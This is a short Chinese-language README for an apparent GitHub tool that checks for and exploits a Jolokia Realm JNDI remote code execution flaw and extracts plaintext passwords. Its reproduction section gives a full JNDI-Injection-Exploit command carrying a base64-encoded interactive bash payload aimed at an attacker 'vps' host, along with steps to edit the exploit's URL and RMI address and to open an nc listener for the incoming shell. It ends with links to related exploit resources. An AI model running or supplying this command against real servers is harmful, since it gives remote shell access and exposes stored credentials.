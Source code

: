 # jolokia_Realm_JNDI_RCE_Check

jolokia Realm JNDI RCE 漏洞检测，并获取明文密码

![image-20230529125021273](\image\img.png)



#### 漏洞复现



```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64}|{base64,-d}|{bash,-i}" -A "vps"
```

![img1](\image\img1.png)



修改 expliot 中的 url 和 rmi 地址

![img2](\image\img2.png)



nc 监听端口

![img3](\image\img3.png)



#### 参考文章

https://github.com/LandGrey/SpringBootVulExploit#0x05jolokia-realm-jndi-rce

https://zhuanlan.zhihu.com/p/369853014

https://r0yanx.com/tools/java_exec_encode/

https://github.com/welk1n/JNDI-Injection-Exploit

